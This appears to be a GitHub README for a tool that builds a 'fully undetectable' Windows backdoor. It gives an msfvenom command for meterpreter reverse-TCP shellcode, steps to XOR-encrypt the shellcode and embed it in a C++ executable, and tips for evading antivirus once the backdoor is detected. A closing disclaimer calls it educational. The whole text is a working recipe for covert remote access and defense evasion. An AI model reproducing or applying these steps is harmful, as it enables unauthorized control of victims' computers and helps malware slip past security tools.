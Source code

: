 # 🔒 Generate **FUD** backdoor with a Python **Crypter** 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

## Clone the repository
```
sudo git clone https://github.com/3ct0s/fud-backdoor.git
cd fud-backdoor
```

## Generate The ShellCode

```
```
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=(IP) LPORT=(PORT) -f raw -o raw.txt

## Encode the ShellCode With the XOR Encryption

```
python xor_encryptor.py raw.txt > xor_shellcode.txt
```

## Add a decryption password
Add a password to both the main.cpp file and the xor_encryptor.py. It has to be the same password otherwise it will not work.

- main.cpp:
```cpp
  // replace the key variable with your own password or key
  char key[9] = "password";
  size_t key_len = strlen(key);
```
- xor_encryptor.py:
```python
# key should be similar to the one in the C++ file(main.cpp). Please
# endeavour to change it!!
KEY = "password"
```

## Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:
```cpp
unsigned char xor_shell_code[] = /* place_xor_shellcode_here */;
```

## Compile the main.cpp file
There is no specific way to do this, all you need to do is compile the C++ code into a windows executable. Here are ways to do that.
https://cutt.ly/BBOXP797

## Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell

## What if it gets detected?

At some point, the anti viruses will be able to detect this backdoor. Here are some things you can do to make it undetectable again. 

You can try to change the payload type protocol and make it http or https and make sure to use another port, add gibberish C++ code on the main.cpp file and you can also try playing with the SSL certificate of the session. Here is an article that covers this: https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation

If this still doesn't work, I can't think of another way to make the connection undetectable since this is a meterpreter shell and they get detected quite easily

## DISCLAIMER

I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!

